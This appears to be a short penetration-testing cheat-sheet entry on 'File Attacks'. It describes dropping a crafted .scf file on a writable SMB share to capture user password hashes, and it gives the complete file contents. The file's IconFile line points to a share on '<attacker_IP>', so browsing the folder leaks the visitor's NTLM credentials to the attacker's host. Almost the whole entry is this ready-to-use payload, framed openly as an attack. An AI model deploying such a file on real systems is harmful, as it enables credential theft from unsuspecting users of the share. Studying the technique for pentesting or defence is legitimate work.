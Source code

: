 # File Attacks

With write rights on a SMB share, it is possible to drop a .scf file with the following content to grab some user hashes:

    [Shell]
    Command=2
    IconFile=\<attacker_IP>\share\pentestlab.ico
    [Taskbar]
    Command=ToggleDesktop
